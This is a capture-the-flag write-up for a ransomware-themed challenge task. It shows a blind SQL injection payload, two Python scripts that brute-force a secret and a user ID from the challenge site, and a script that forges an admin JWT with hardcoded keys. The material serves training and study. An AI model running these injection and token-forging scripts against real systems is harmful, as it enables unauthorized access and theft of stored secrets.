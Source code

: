 # Task 7

## Description

With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.

Generate a new token value which will allow you to access the ransomware site as an administrator.

## Solution

After gaining access to the administrator pages and exploring the source code for them, a SQL injection vulnerability is revealed on the `/userinfo` page. The output of the SQL query is all cast to integers before being displayed on the page, meaning only integers such as the `uid` can be leaked directly.

![](./img/sqli.png)

This is the only query in the entire website that does not use prepared statements. The injection can be triggered with `'<payload>;-- -`. The payload below is a boolean-based blind SQL injection used to brute force the hex-encoded version of the secret.

`HealthyRespect' and (SELECT substr(hex(secret),1,1) FROM Accounts WHERE userName='HealthyRespect') = '4';-- -`

I scripted this attack with python to automatically extract the `secret`.

```python
import jwt
import sys
import requests
from datetime import datetime, timedelta

dictionary = ['0','1','2','3','4','5','6','7','8','9','A','B','C','D','E','F','fail']
secret = []

def gen_token():
    hmac = "hionYjaULMZE4sZnrWj4nzkEjmDUAdsb"
    now = datetime.now()
    exp = now + timedelta(days=30)

    claims = {
        'iat': int(now.timestamp()),
        'exp': int(exp.timestamp()),
        'uid': 26567,
        'sec': 'WReAsZnC8atEELdAPpcIs0yHCLzqPi1a'
    }

    return jwt.encode(claims, hmac, algorithm='HS256')

print('Found: ', end='')
sys.stdout.flush()
for i in range(1,65):
    for char in dictionary:

        if char == 'fail':
            print('Failed')
            exit()

        injection = f"HealthyRespect' and (SELECT substr(hex(secret),{i},1) FROM Accounts WHERE userName='HealthyRespect') = '{char}';-- -"

        cookie = {'tok':gen_token()}
        data = {'user':injection}

        r = requests.post('https://jbjlxkyofmpcxooy.ransommethis.net/qschfbjhzihmssyy/userinfo', cookies=cookie, data=data)

        if "User Info ()" not in r.text:
            print(f"{char}", end='')
            sys.stdout.flush()
            secret.append(char)
            break

print(f"\nSecret: {bytes.fromhex(''.join(secret)).decode('utf-8')}")
```

![](./img/getsecret.png)

I also used the same method of boolean-based blind SQL injection to brute force the `uid`. However, since this is an integer value, it can also be leaked directly.

```python
import jwt
import sys
import requests
from datetime import datetime,timedelta

dictionary = ['0','1','2','3','4','5','6','7','8','9','A','B','C','D','E','F','fail']
secret = []

def gen_token():
    hmac = "hionYjaULMZE4sZnrWj4nzkEjmDUAdsb"
    now = datetime.now()
    exp = now + timedelta(days=30)

    claims = {
        'iat': int(now.timestamp()),
        'exp': int(exp.timestamp()),
        'uid': 26567,
        'sec': 'WReAsZnC8atEELdAPpcIs0yHCLzqPi1a'
    }

    return jwt.encode(claims, hmac, algorithm='HS256')

print('Found: ', end='')
sys.stdout.flush()
for i in range(1,11):
    for char in dictionary:

        if char == 'fail':
            print('Failed')
            exit()

        injection = f"HealthyRespect' and (SELECT substr(hex(uid),{i},1) FROM Accounts WHERE userName='HealthyRespect') = '{char}';-- -"

        cookie = {'tok':gen_token()}
        data = {'user':injection}

        r = requests.post('https://jbjlxkyofmpcxooy.ransommethis.net/qschfbjhzihmssyy/userinfo', cookies=cookie, data=data)

        if "User Info ()" not in r.text:
            print(f"{char}", end='')
            sys.stdout.flush()
            secret.append(char)
            break

print(f"\nUID: {bytes.fromhex(''.join(secret)).decode('utf-8')}")
```

![](./img/getuid.png)

Using the information gathered from the previous injections, I was able to forge an admin token allowing access to the admin panel.

```
import jwt
from datetime import datetime, timedelta
import requests

hmac = 'hionYjaULMZE4sZnrWj4nzkEjmDUAdsb'
now = datetime.now()
exp = now + timedelta(days=30)

claims = {
    'iat':int(now.timestamp()),
    'exp':int(exp.timestamp()),
    'uid':'34799',
    'sec':'K7crfGC6Y36pNq2uLlmkRH6Fp7GPY1hG'
}

tok = jwt.encode(claims, hmac, algorithm='HS256')
print(tok)
```

![](./img/admin.png)
